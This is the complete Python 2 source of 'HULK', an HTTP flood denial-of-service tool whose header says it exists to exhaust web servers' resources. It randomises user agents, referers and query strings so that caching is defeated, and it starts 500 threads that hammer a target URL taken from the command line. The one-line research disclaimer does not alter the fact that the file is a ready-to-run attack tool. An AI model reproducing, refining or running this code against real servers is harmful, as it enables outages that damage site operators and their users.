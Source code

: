 # ----------------------------------------------------------------------------------------------
# HULK - HTTP Unbearable Load King
#
# this tool is a dos tool that is meant to put heavy load on HTTP servers in order to bring them
# to their knees by exhausting the resource pool, its is meant for research purposes only
# and any malicious usage of this tool is prohibited.
#
# author :  Peter Beckett, version 1.0
# ----------------------------------------------------------------------------------------------
import urllib2
import sys
import threading
import random
import re

#global params
url=''
host=''
headers_useragents=[]
headers_referers=[]
request_counter=0
flag=0
safe=0

def inc_counter():
	global request_counter
	request_counter+=1

def set_flag(val):
	global flag
	flag=val

def set_safe():
	global safe
	safe=1
	
# generates a user agent array
def useragent_list():
	global headers_useragents
	headers_useragents.append('Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.1.3) Gecko/20090913 Firefox/3.5.3')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 6.1; en; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.1) Gecko/20090718 Firefox/3.5.1')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/4.0.219.6 Safari/532.1')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; InfoPath.2)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; SLCC1; .NET CLR 2.0.50727; .NET CLR 1.1.4322; .NET CLR 3.5.30729; .NET CLR 3.0.30729)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.2; Win64; x64; Trident/4.0)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; SV1; .NET CLR 2.0.50727; InfoPath.2)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 6.0; en-US)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 6.1; Windows XP)')
	headers_useragents.append('Opera/9.80 (Windows NT 5.2; U; ru) Presto/2.5.22 Version/10.51')
	return(headers_useragents)

# generates a referer array
def referer_list():
	global headers_referers
	headers_referers.append('http://www.google.com/?q=')
	headers_referers.append('http://www.usatoday.com/search/results?q=')
	headers_referers.append('http://engadget.search.aol.com/search?q=')
	headers_referers.append('http://' + host + '/')
	return(headers_referers)
	
#builds random ascii string
def buildblock(size):
	out_str = ''
	for i in range(0, size):
		a = random.randint(65, 90)
		out_str += chr(a)
	return(out_str)

def usage():
	print '---------------------------------------------------'
	print 'USAGE: python hulk.py <url>'
	print 'you can add "safe" after url, to autoshut after dos'
	print '---------------------------------------------------'

	
#http request
def httpcall(url):
	useragent_list()
	referer_list()
	code=0
	if url.count("?")>0:
		param_joiner="&"
	else:
		param_joiner="?"
	request = urllib2.Request(url + param_joiner + buildblock(random.randint(3,10)) + '=' + buildblock(random.randint(3,10)))
	request.add_header('User-Agent', random.choice(headers_useragents))
	request.add_header('Cache-Control', 'no-cache')
	request.add_header('Accept-Charset', 'ISO-8859-1,utf-8;q=0.7,*;q=0.7')
	request.add_header('Referer', random.choice(headers_referers) + buildblock(random.randint(5,10)))
	request.add_header('Keep-Alive', random.randint(110,120))
	request.add_header('Connection', 'keep-alive')
	request.add_header('Host',host)
	try:
			urllib2.urlopen(request)
	except urllib2.HTTPError, e:
			#print e.code
			set_flag(1)
			print 'Response Code 500'
			code=500
	except urllib2.URLError, e:
			#print e.reason
			sys.exit()
	else:
			inc_counter()
			urllib2.urlopen(request)
	return(code)		

	
#http caller thread 
class HTTPThread(threading.Thread):
	def run(self):
		try:
			while flag<2:
				code=httpcall(url)
				if (code==500) & (safe==1):
					set_flag(2)
		except Exception, ex:
			pass

# monitors http threads and counts requests
class MonitorThread(threading.Thread):
	def run(self):
		previous=request_counter
		while flag==0:
			if (previous+100<request_counter) & (previous<>request_counter):
				print "%d Requests Sent" % (request_counter)
				previous=request_counter
		if flag==2:
			print "\n-- HULK Attack Finished --"

#execute 
if len(sys.argv) < 2:
	usage()
	sys.exit()
else:
	if sys.argv[1]=="help":
		usage()
		sys.exit()
	else:
		print "-- HULK Attack Started --"
		if len(sys.argv)== 3:
			if sys.argv[2]=="safe":
				set_safe()
		url = sys.argv[1]
		if url.count("/")==2:
			url = url + "/"
		m = re.search('http\://([^/]*)/?.*', url)
		host = m.group(1)
		for i in range(500):
			t = HTTPThread()
			t.start()
		t = MonitorThread()
		t.start()
